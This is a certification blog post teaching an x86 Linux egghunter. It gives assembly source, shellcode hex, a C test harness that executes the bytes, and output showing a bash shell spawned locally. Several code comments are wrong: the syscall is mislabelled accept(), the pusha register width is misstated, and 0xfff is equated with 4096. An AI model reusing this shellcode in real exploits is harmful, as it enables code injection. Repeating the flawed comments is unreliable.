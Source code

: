 ```yaml
---
title: SLAE32 Assignment 3 - Egghunter Shellcode
date: 2019-8-18
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - egghunter
  - execve
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
---
```

![](/assets/images/SLAE32.png)
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```
## Overview
For our third assignment in the SLAE32 course we were tasked with creating an `egghunter`.  
What is an Egg Hunter?   
+ An Egghunter is a piece of injectable shellcode that will search the memory of the running program for the a specific, larger payload. 
+ Once the Egghunter finds the larger payload, it will pass program control to it by executing it.  

The larger payload that our Egghunter will search for and execute will be the `execve-stack` shellcode provided in the SLAE32 course.  

## Egghunter Assembly Code
```nasm
; Filename: eggHunter.asm
; Author:   boku
global _start
_start:
; Configure Egg in EBX
  mov ebx, 0x50905090
; Clear EAX, ECX, EDX
  xor ecx, ecx         ; Clears the ECX Register. 
  mul ecx              ; ECX*EAX. Result is stored in EDX:EAX. 
; Jump here to move forward a memory page
nextPage:              ; Increments the memory address stored in EDX by 4096 Bytes (a memory page)
  or dx, 0xfff         ; 0xfff = 4096. This is the size of Linux Memory pages.
; Jump here to move forward 4 bytes on a memory page
nextAddress:           ; Increments the memory address stored in EDX by 4 Bytes 
  inc edx              ; in combo with the or dx above, this moves the memory scanner EDX by a page
                       ; in combo with the cmp [edx+0x4] below, this aligns EDX so it will scan the
                       ;  next memory address
 ; 4095*2=8190+1=8191. 
 ;                                      --> (inc edx) 4095+1  -->  (inc edx) 8191+1
 ; or dx when edx is: \x00000000        |   \x00001000 = 4096 |    \x00002000 = 8192
 ;               OR   \x00000FFF        |   \x00000FFF = 4095 |    \x00000FFF = 4095
 ;          RESULTS:  \x00000FFF = 4095--   \x00001FFF = 8191--    \x00002FFF = 12287

; Save the registers before accept() system-call because they will be altered after the call
 pusha                 ; Pushes all 16-bit registers onto the stack
 lea ebx, [edx+0x4]    ; Increments the Memory Address of EDX by 4 Bytes.
                       ;  Stores the value stored at EDX+4 into the EBX register
 mov al, 0x21          ; System Call for accept() 
 int 0x80              ; Executes accept()
; Check if memory page is accessible
 cmp al, 0xf2          ; The return value of accept() is stored in EAX. 
                       ;  Checks if access is denied
; Load the registers that were stored onto the stack

 popa                  ; Pops all 16-bit registers from the stack
; if accept() could not access the memory page, go to the next page
 jz nextPage           ; If page access is denied, check the next memory page 
; if accept() could access the memory page, 
;  check if the egg is in the first memory location on the page
 cmp [edx], ebx
; if the egg is not there, then increment our location 
;  on the page by 1 byte and check there
 jnz nextAddress
; if the egg is there, check the next for bytes to make 
;  sure it is our payload and not the egghunter itself.
 cmp [edx+0x4], ebx
; if the egg isn't there then it is a fluke or 
;  is our egghunter. Check the next address.
 jnz nextAddress
; if the egg is there twice, then we found our payload. 
;  Jump to the memory location on that page
;  and transfer control to our payload.
 jmp edx
```

## Compiling and Testing the EggHunter
### Compiling the EggHunter Assembly Code
```nasm 
root# nasm -f elf32 eggHunter.asm -o eggHunter.o
root# ld -z execstack eggHunter.o -o eggHunter
```

### Compiling a Payload for the EggHunter to Find
#### SLAE32 Execve-Stack `/bin/bash` Shellcode
```nasm
; Filename: execve-stack.nasm
; Author:  Vivek Ramachandran
; Website:  http://securitytube.net
; Training: http://securitytube-training.com

global _start

section .text
_start:

; PUSH the first null dword
xor eax, eax
push eax
; PUSH ////bin/bash (12)
push 0x68736162
push 0x2f6e6962
push 0x2f2f2f2f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```
#### Compiling the Payload
```console
t# nasm -f elf32 execve-stack.nasm -p execve-stack.o
root# ld -z execstack execve-stack.o -o execve-stack
```

#### Testing the Payload
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./execve-stack 
root# ps -p $$
  PID TTY          TIME CMD
  584 pts/5    00:00:00 bash
```

### Testing the EggHunter in a Host Program
#### Grabbing the Hex for the Execve Shellcode
```console
root# objdump -d execve-stack | grep '[0-9a-f]:' | grep -v 'file' | \
> cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
> sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
> sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
#### Grabbing the Hex from our EggHunter Shellcode
```console
root# objdump -d eggHunter | grep '[0-9a-f]:' | grep -v 'file' | \
> cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
> sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
> sed 's/^/"/' | sed 's/$/"/g'
"\xbb"
"\x90\x50\x90\x50"  # Our Egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2"
```
#### Host Program in C
```c
// Filename: testEggHunter.c
// Author:   boku
#include <stdio.h>
#include <string.h>
// This is the egg for our eggHunter
// the egg should be 4 bytes and be executable
#define egg "\x90\x50\x90\x50"

// Put two eggs in front of our payload
// This allows our eggHunter to find it in memory
unsigned char payload[] =
egg
egg
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// Replace the hardcoded egg with a variable.
// This allows us to easily change the egg for our eggHunter.
unsigned char egghunter[] =
"\xbb"
egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2";

// This program will run our egghunter.
// Our eggHunter will search memory until it finds 2 eggs.
// Once the payload is found it will pass control to the payload.

int main()
{
    printf("Memory Location of Payload: %p\n", payload);
    printf("Size of Egghunter:          %d\n", strlen(egghunter));
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

#### Compiling the Host Program 
```c
root# gcc testEggHunter.c -o testEggHunter -fno-stack-protector -z execstack
```

#### Testing the EggHunter in the Host Program
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./testEggHunter 
Memory Location of Payload: 0x804a040
Size of Egghunter:          39
root# ps -p $$
  PID TTY          TIME CMD
 3048 pts/5    00:00:00 bash
```
+ Before we run our program we get the Program ID of our bash shell.
  - Our `bash` PID is 14383.
+ After running our eggHunter we check to see that it found our payload, and spawned a new bash shell.
  - Our `bash` PID is now 3048. 
  - We have successfully spawned a new bash shell.
